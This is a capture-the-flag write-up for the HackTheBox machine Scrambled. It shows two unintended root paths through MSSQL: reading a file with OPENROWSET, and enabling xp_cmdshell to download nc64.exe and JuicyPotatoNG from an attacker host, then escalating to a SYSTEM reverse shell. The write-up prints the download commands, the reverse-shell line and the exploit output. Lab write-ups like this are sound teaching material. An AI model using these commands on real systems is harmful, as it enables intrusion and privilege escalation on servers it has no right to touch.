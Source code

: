 ```yaml
---
title: HTB: Scrambled - Alternative Roots
url: https://0xdf.gitlab.io/2022/10/01/htb-scrambled-beyond-root.html
date: 2022-10-01T13:45:00+00:00
tags: htb-scrambled, ctf, hackthebox, windows, mssql, mssql-file-read, juicypotatong, xp-cmdshell, potato, seimpersonate
---
```


## Alternative Roots

There were two unintended paths that I’m aware of, both of which abused MSSQL.

### Unintended File Read Via MSSQL

Wh04m1 got root blood on Scrambled using this technique. [This post on MSSQL Tips](https://www.mssqltips.com/sqlservertip/1643/using-openrowset-to-read-large-files-into-sql-server/) talks about how to read a file using MSSQL using the `BULK` option, which was added to SQL Server 2005. Their example query is:

```

SELECT BulkColumn 
FROM OPENROWSET (BULK 'c:\temp\mytxtfile.txt', SINGLE_CLOB) MyFile 

```

`OPENROWSET` returns a single column named `BulkColumn`. `MyFile` is a correlation name, which isn’t really important here other than it must exist, and it doesn’t really matter what I put there.

`OPENROWSET`, when used with the `BULK` provider takes a file path and one of three keywords:
- `SINGLE_BLOB` returns as a `varbinary`
- `SINGLE_CLOB` returns as a `varchar`
- `SINGLE_NCLOB` returns as a `nvarchar`

So to read `root.txt`, I’ll run:

```

SQL> SELECT BulkColumn FROM OPENROWSET(BULK 'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) MyFile
BulkColumn
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   

b'a01b823bd0d7c97c98646d36d1d03c02\r\n' 

```

### RoguePotato

#### Get Execution Via MSSQL

To get to a place where I could run RoguePotato, I’ll need to be executing with the `SeImpersonatePrivilege`. I’m most likely to find this through the MSSQL service.

To run commands via MSSQL, I’ll use the `xp_cmdshell` stored procedure. If I try to run this initially, it will fail:

```

SQL> xp_cmdshell whoami
[-] ERROR(DC1): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.

```

I can reconfigure that with the [following four lines](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16):

```

SQL> EXECUTE sp_configure 'show advanced options', 1
[*] INFO(DC1): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> EXECUTE sp_configure 'xp_cmdshell', 1
[*] INFO(DC1): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE

```

Now it works:

```

SQL> xp_cmdshell whoami
output
--------------------------------------------------------------------------------

scrm\sqlsvc

NULL   

```

#### Privilege Check

The service is running as scrm\sqlsvc, which does have `SeImpersonate`:

```

SQL> xp_cmdshell whoami /priv
output
--------------------------------------------------------------------------------
NULL
PRIVILEGES INFORMATION
----------------------
NULL
Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
NULL

```

#### JuicyPotatoNG

RoguePotato will work on Scrambled, but I’ll use this opportunity to show off [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG), the latest Potato which was released just over a week before Scrambled retired.

The details of the exploit can be found [here](https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/), and involve a significant understanding of Windows internals details.

Practically speaking, I can download the compiled exe from the [release page](https://github.com/antonioCoco/JuicyPotatoNG/releases/latest), and serve it from my webserver along with two other files:
- `nc64.exe`, which I’ll use to get a reverse shell
- `rev.bat`, which simply invokes `nc64.exe` to return a reverse shell to my VM:

  ```

  C:\\programdata\\nc64.exe -e cmd 10.10.14.6 443

  ```

Staging out of `C:\ProgramData\`, I’ll upload all three to Scrambled from MSSQL:

```

SQL> xp_cmdshell powershell curl 10.10.14.6/nc64.exe -outfile C:\\programdata\\nc64.exe
output
--------------------------------------------------------------------------------
NULL
SQL> xp_cmdshell powershell curl 10.10.14.6/rev.bat -outfile C:\\programdata\\rev.bat
output
--------------------------------------------------------------------------------
NULL
SQL> xp_cmdshell powershell curl 10.10.14.6/JuicyPotatoNG.exe -outfile C:\\programdata\\jp.exe
output
--------------------------------------------------------------------------------
NULL

```

Now with `nc` listening on my host, I’ll invoke JuicyPotatoNG:

```

SQL> xp_cmdshell C:\\programdata\\jp.exe -t * -p C:\\programdata\\rev.bat
output
--------------------------------------------------------------------------------
NULL
NULL
         JuicyPotatoNG
         by decoder_it & splinter_code
NULL
[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 10247
[+] authresult success {854A20FB-2D44-457D-992F-EF13785D2B51};NT AUTHORITY\SYSTEM;Impersonation
[+] CreateProcessWithTokenW OK
[+] Exploit successful!
NULL 

```

It reports success, and there is a shell running as SYSTEM at `nc`:

```

oxdf@hacky$ rlwrap -cAr nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.168 63184
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```